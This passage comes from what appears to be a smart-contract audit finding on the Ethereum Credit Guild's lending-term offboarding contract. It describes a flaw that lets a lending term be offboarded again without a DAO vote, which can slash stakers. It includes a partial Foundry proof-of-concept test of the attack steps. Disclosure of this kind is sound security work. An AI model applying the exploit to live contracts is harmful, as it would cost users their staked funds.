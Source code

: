 - `@2 -- If the canOffboard[term] flag is set, the term can be offboarded`: https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/governance/LendingTermOffboarding.sol#L154

- `@3 -- To clean up the term, all its loans must be closed`: https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/governance/LendingTermOffboarding.sol#L177-L180

## Impact

The active re-onboarded lending term can be forced to immediately offboard, bypassing the DAO vote offboarding, which is the protocol's core mechanism. Subsequently, the attacked lending term will block all new loans from being issued and prevent guild holders from voting for the term. 

**Moreover, all loans previously issued by the attacked term can be called putting the loans for bidding silently (since the attacker bypasses the DAO vote offboarding mechanism). If one of the loans fails on bidding to fill up the loan's principal, the [term's loss will be notified](https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/LendingTerm.sol#L797). As a result, all users who stake credit tokens through the `SurplusGuildMinter` contract to vote for the attacked term will [be slashed with all their credit principal and guild rewards](https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/SurplusGuildMinter.sol#L228-L231).**

## Proof of Concept

This section provides a coded PoC. 

Place the `testPoCReplayOffboarding()` in the `.test/unit/governance/LendingTermOffboarding.t.sol` file and run the test using the `forge test --match-test testPoCReplayOffboarding -vvv` command.

The PoC explains the attack steps described in the `Vulnerability Details` section.

```solidity
function testPoCReplayOffboarding() public {
    // Prepare for Bob
    guild.mint(bob, _QUORUM);
    vm.startPrank(bob);
    guild.delegate(bob);

    uint256 POLL_DURATION_BLOCKS = offboarder.POLL_DURATION_BLOCKS();
    uint256 snapshotBlock = block.number;
    uint256 OFFBOARDING_POLL_END_BLOCK = snapshotBlock + POLL_DURATION_BLOCKS;

    // Bob proposes an offboarding of the term
    assertEq(guild.isGauge(address(term)), true);
    offboarder.proposeOffboard(address(term));

    // Next 1 day
    vm.roll(block.number + 6646); // 1 day
    vm.warp(block.timestamp + 6646 * 13);
    assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);

    vm.expectRevert("LendingTermOffboarding: quorum not met");
    offboarder.cleanup(address(term));

    // Bob votes for offboarding the term and executes the offboarding (he has a sufficient voting weight)
    assertEq(guild.isGauge(address(term)), true);
    assertEq(offboarder.canOffboard(address(term)), false);
    offboarder.supportOffboard(snapshotBlock, address(term));
    offboarder.offboard(address(term));
    assertEq(guild.isGauge(address(term)), false);
    assertEq(offboarder.canOffboard(address(term)), true);

    // Cannot clean up because loans are active
    vm.expectRevert("LendingTermOffboarding: not all loans closed");
```